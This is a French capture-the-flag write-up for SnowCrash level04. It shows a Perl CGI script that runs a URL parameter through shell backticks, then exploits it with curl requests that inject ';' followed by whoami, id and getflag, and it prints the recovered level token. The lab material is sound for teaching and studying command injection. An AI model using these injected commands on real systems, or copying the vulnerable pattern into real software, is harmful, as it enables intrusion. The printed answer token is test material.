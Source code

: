 # level04

1. Fichiers trouvés dans `~/` :

```bash
./level04.pl
```

2) Analyse du fichier

Le script est un petit CGI/Perl vulnérable qui exécute le contenu du paramètre `x` via des backticks shell :

```perl
use CGI qw{param};
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
La valeur fournie par un visiteur est passée au shell et exécutée.

- confirmer qu'un service écoute sur le port 4747
```bash
level04@SnowCrash:~$ ss -tlnp | grep 4747
LISTEN 0 128 :::4747 :::*     
```
- vérifier sous quel user la commande s'exécutera (test rapide)
```bash
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+whoami'
flag04
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+id'
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

Les réponses confirment que le script est actif et exécutera toute commande passée via le paramètre `x`.

4) Exploitation pour récupérer le token :

Le payload consiste à séparer la commande `echo` initiale de la commande malveillante par un `;` et à appeler `getflag` :

```bash
curl 'http://127.0.0.1:4747/?x=%3B+getflag'
```

4) Token découvert :

le token est `ne2searoevaevoem4ov4ar8ap`
